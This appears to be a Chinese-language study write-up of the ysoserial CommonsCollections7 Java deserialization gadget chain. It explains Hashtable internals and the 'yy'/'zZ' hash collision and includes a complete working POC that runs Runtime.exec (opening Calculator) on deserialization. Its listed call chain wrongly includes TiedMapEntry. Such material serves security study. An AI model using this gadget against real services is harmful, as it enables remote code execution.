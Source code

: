 # Java安全学习-Commons-Collections7链

Author: H3rmesk1t

# 环境搭建
> 1. `JDK`版本：JDK1.8u66
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## Hashtable
> `Hashtable`与`HashMap`类似，都是是一种`key-value`形式的哈希表

```java
[1] Hashtable 线程安全，HashMap 线程不安全
[2] HashMap 继承 AbstractMap，而 Hashtable 继承 Dictionary
[3] 两者内部基本都是使用“数组-链表”的结构，但是 HashMap 引入了红黑树的实现
[4] Hashtable 的 key-value 不允许为 null 值，但是 HashMap 则是允许的，后者会将 key=null 的实体放在 index=0 的位置
```

> 跟进`Hashtable`发现，在`readObject`方法中，会调用`reconstitutionPut()`方法，并在`reconstitutionPut()`方法中会调用`key.hashCode()`，后续的调用逻辑和`CommonsCollections6`链基本一致

<img src="./images/23.png" alt="">

## 哈希碰撞机制
> 在[ProgrammerSought](https://www.programmersought.com/article/94401321514/)上给出的说法是

```
The so-called hash conflict, that is, the two key values ​​are calculated by the hash function to obtain the same hash value, and a subscript can only store one key, which produces a hash conflict, if the subscript one of the keys first Saved, the other key must find its own storage location by other means.
```
> 也就是说，当两个不同的`key`通过`hash()`方法计算出同一个`hash`值时，而一个下标只能存储一个`key`，这就产生了`hash`冲突

> 那么要如何构造出一个`hash`冲突呢，跟进`HashMap#hash`方法

<img src="./images/27.png" alt="">

> 继续跟进`hashcode()`方法，根据`for`循环中的代码，不难推出`Hash`值的计算公式

<img src="./images/28.png" alt="">

<img src="./images/29.png" alt="">

> 这也就不难解释为什么`ysoserial`项目中的`CommonsCollections7`链中是`yy`和`zZ`了，需要时，利用`z3`来计算字符串位数不一样情况下的可能值即可

```python
ord("y") == 121
ord("z") == 122
ord("Z") == 90
"yy".hashCode() == 31 × 121 + 1 × 121 == 3872
"zZ".hashCode() == 31 × 122 + 1 × 90 == 3872
"yy".hashCode() == "zZ".hashCode() == 3872
```


# CommonsCollections7 分析
> 在`CommonsCollections`链中，利用`AbstractMap#equals`来触发对`LazyMap#get`方法的调用，这里的`m`如果是可控的话，那么设置`m`为`LazyMap`，就可以完成后面的链子构造

<img src="./images/24.png" alt="">

> 继续跟进看看`equals`方法的调用点在哪，在前面的`Hashtable#reconstitutionPut`方法中存在着调用点：`e.key.equals(key)`，如果这里的`key`可控的话，上面的`m`也就是可控的

> 观察到在`readObject`方法中传递进去的`key`，相应的，那么在`writeObject`处也会存在`Hashtable#put`进入的值

<img src="./images/25.png" alt="">

> 这里还需要注意一个点，由于`if`语句是用`&&`连接判断条件的，那么要执行到后面的`e.key.equals(key)`，就必须先要满足`e.hash == hash`，接着调用`equals`方法，这里利用到了`Hash`冲突(`Hash`碰撞)机制

<img src="./images/26.png" alt="">

> 在`POC`中移除第二个`LazyMap`中的元素是因为`get`方法向当前的`map`添加了新元素，从而`map2`变成了两个元素

<img src="./images/31.png" alt="">

## POC

```java
package CommonsCollections7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 6:40 下午
 */
public class CommonsCollections7Gadget {

    public static void CC7() throws NoSuchFieldException, IllegalAccessException {
        Transformer[] faketransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);
        Class _class = chainedTransformer.getClass();
        Field field = _class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        map2.remove("yy");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(hashtable);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC7();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/30.png" alt="">

# 调用链

```java
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

# 总结
> 主体思想是用`Hashtable`代替`HashMap`触发`LazyMap`，后续利用与`CommonsCollections6`链的`HashMap`利用方式基本一致